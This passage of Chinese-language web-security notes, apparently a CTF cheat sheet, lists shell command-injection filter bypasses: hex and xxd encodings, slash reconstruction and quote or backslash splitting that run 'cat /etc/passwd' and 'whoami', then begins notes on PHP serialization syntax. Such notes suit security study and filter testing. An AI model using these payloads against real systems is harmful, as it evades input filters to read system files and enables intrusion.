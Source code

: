 - ASCII扩展（`$'\x20\x00'`）

```shell
# `` 和 $() 中的内容会被当做命令运行
cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`

abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat $abc

`echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`

cat `xxd -r -p <<< 2f6574632f706173737764`
cat `xxd -r -ps <(echo 2f6574632f706173737764)`
```

- 绕过符号过滤（`/`）

```shell
${HOME:0:1}

$(echo . | tr '!-0' '"-1')
`echo . | tr '(-0' ')-1'`
```

- 绕过关键词过滤

```shell
who'am'i

c"a"t /etc/pass'w'd

wh\o\a\mi

who``ami

who$()ami

x=/et000c/pa000sswd;echo ${x//000/}
```

## PHP反序列化

记忆方式：复合类型后跟花括号，花括号里面逐个放入键值。除了复合类型（数组和对象外），其余简单类型后都有分号。一元（1个）：空类型。二元（3个）：布尔、整型、浮点。三元（2个）：字符串、数组。五元（1个）：对象。【13201】

- 布尔值 `b:<value>;`

```
b:1;
b:0;
```

- 整型 `i:<value>;`

```
i:12;
```
